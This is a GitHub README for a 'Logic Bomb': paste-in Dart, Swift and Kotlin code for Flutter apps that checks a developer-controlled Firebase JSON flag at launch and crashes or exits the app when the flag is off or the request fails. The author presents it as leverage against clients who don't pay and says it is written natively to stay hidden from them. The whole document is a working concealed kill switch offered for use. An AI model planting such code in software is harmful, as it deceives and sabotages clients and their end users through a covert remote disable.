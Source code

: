 # Logic Bomb

## Control app crashing using Firebase or REST API ( Dart, Kotlin and Swift ).
### Do not abuse this code.
I am not responsible for any misuse of this code.
#### Hom many times did you work hard and didn't get paid ? 
This code was created to protect myself from clients. A client may come to you wants to complete a project, when yuo upload the app on stores, he disappears and not pays for you.

### Code is written in :
- #### Dart
- #### Swift
- #### Kotlin

I made it in native to make the code more invisible if he got the source code.

## Implementation Time 

## Dart
in your main file 
import 
```
import 'package:dio/dio.dart';
import 'dart:io';
```
in main file paste this function
```
void plant() async {
  try {
    final result = await Dio().get('$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json');
    final data = result.data;
    if (Platform.isAndroid && !data['android']) {
      throw Exception();
    } else if (Platform.isIOS && !data['ios']) {
      throw Exception();
    }
  } catch (_) {
    exit(0);
  }
}
```
in main function plant your bomb
```
void main() {
  plant();
  runApp(MyApp());
}
```

## Swift
ios -> Runner -> AppDelegate.swift
then put this code

 ```
import UIKit
import Flutter

@UIApplicationMain
@objc class AppDelegate: FlutterAppDelegate {
  override func application(
    _ application: UIApplication,
    didFinishLaunchingWithOptions launchOptions: [UIApplication.LaunchOptionsKey: Any]?
  ) -> Bool {
    GeneratedPluginRegistrant.register(with: self)
    plant()
    return super.application(application, didFinishLaunchingWithOptions: launchOptions)
  }

  func plant() {
          let api = "$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json"
          let url = URL(string: api)!
          do {
              let data = try Data(contentsOf: url)
              let json = try JSONSerialization.jsonObject(with: data) as! [String:Any]
              if (json["ios"] as! Int == 0) {
                   fatalError()
              }
          } catch {
              fatalError()
          }
      }

}
 ```

## Android
in android -> app -> src -> main -> AndroidManifest.xml
put Internet Permission
```
    <uses-permission android:name="android.permission.INTERNET" />
```
then go to android -> app -> src -> main -> kotlin 
beside MainActivity
create new JavaClass Named Bomb and paste this code inside
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME;

import java.io.*;
import java.net.HttpURLConnection;
import java.net.URL;

public class Bomb {

    void plant() throws IOException {
        Thread thread = new Thread(new Runnable() {

            @Override
            public void run() {
                try {
                    URL url = new URL("$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json");
                    HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
                    urlConnection.setRequestMethod("GET");
                    BufferedReader in = new BufferedReader(new InputStreamReader(urlConnection.getInputStream()));
                    StringBuffer sb = new StringBuffer();
                    String line;
                    while ((line = in.readLine()) != null) {
                        sb.append(line);
                    }
                    in.close();
                    if (sb.toString().contains("\"android\":false")) {
                        throw new RuntimeException("");
                    }
                } catch (Exception e) {
                    throw new RuntimeException("");
                }
            }
        });

        thread.start();
    }

}
```
and in MainActivity file
paste this code 
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME

import io.flutter.embedding.android.FlutterActivity
import io.flutter.embedding.engine.FlutterEngine

class MainActivity: FlutterActivity() {
    override fun configureFlutterEngine(flutterEngine: FlutterEngine) {
        super.configureFlutterEngine(flutterEngine)
        Bomb().plant()
    }

}
```

## Firebase Setup :
To get your firebase project link follow these Screenshots and don't miss any step OR it won't work.
## 1
![](firebase_setup_screenshots/1.png)
## 2
![](firebase_setup_screenshots/2.png)
## 3
![](firebase_setup_screenshots/3.png)
## 4
![](firebase_setup_screenshots/4.png)
## 5
![](firebase_setup_screenshots/5.png)
## 6
![](firebase_setup_screenshots/6.png)
## 7
![](firebase_setup_screenshots/7.png)
## 8
![](firebase_setup_screenshots/8.png)

## Example : 
```
https://logic-bomb-896dd-default-rtdb.firebaseio.com/app.json
```
